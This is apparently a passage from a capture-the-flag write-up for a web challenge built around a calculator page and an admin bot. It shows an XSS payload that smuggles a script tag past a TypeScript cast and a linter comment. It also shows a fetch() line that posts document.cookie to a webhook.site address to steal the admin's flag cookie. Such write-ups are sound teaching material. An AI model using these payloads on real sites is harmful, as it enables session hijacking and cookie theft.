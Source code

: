 I made a simple file with `alert(2)` as the content and used the following payload to trigger it.

`"<script src=http://0.0.0.0/t></script>" as any /* eslint-disable-line */`

![executing alert](./images/2024-02-14_15-05.png)

Now to get the flag, we can see in `adminbot_test.js`, it assigns the flag as admin's cookie when the admin visits our link.

```javascript
await page.setCookie({
            name: 'flag',
            value: FLAG,
            domain: new URL(SITE).host
        });
```

So we can capture the cookie with the following script.

`fetch("https://webhook.site/ec8e1a07-ced0-44b9-b3f4-e91d325982eb", {method: "post", body: document.cookie})`

The payload to enter in the calculator would be.

`"<script src=http://my.s/t></script>" as any /* eslint-disable-line */`

Note that the payload needs to be less than 75 characters else, it'll fail.

Now provide the url to `admin bot` and it would show us the cookie in our web hook.

